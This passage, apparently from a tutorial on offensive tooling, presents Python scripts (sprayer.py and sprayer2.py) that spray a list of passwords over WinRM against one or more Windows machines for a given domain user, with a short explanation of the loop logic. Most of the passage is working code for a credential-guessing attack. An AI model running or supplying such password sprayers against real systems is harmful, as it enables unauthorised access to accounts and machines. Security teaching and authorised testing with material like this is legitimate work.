 ```python
        command_id = Connection.run_command(shell_id, 'ipconfig', ['/all'], console_mode_stdin=True, skip_cmd_shell=False)
        std_out, std_err, status_code = Connection.get_command_output(shell_id, command_id)
        Connection.cleanup_command(shell_id, command_id)
        Connection.close_shell(shell_id)
    except winrm.exceptions.InvalidCredentialsError:
        return False
    return False if std_err else True

parser = argparse.ArgumentParser()
parser.add_argument('--ip', type=str, nargs='+', required=True)
parser.add_argument('--domain', type=str, required=True)
parser.add_argument('--user', type=str, required=True)
parser.add_argument('--passwordfile', type=str, required=True)
args = parser.parse_args()

for ip in args.ip:
    print("Testing passwords for user {} on machine {} ...".format(args.user, ip))
    finalpassword = 'No entry in password file'
    with open(args.passwordfile, 'r') as passwordfile:
        for password in passwordfile:
            password = password.strip()
            passwordvalidity = check_pwd(ip, args.user, password, args.domain)
            if passwordvalidity:
                finalpassword = password
                break
    print("{} is a valid password for user {} on machine {}".format(finalpassword, args.user, ip))
```

#### Explanation

- This script allows the user to "spray" a list of passwords against one or more IPs for a given user.
- Uses argparse to take command-line arguments for IPs, domain, user, and the password file.
- For each target IP:
    - Reads each password from the file and tries it using check_pwd.
    - If a valid password is found, saves it and stops trying more passwords for that IP.
    - Prints the result for each IP.

---

### 3. sprayer2.py – Alternative Loop Structure for Profiling

#### Code

```python
with open(args.passwordfile, 'r') as passwordfile:
    for password in passwordfile:
        password = password.strip()
        for ip in args.ip:
            finalpassword = 'No entry in password file'
            passwordvalidity = check_pwd(ip, args.user, password, args.domain)
            if passwordvalidity:
                finalpassword = password
                print("{} is a valid password for user {} on machine {}".format(finalpassword, args.user, ip))
        if passwordvalidity:
            break
```
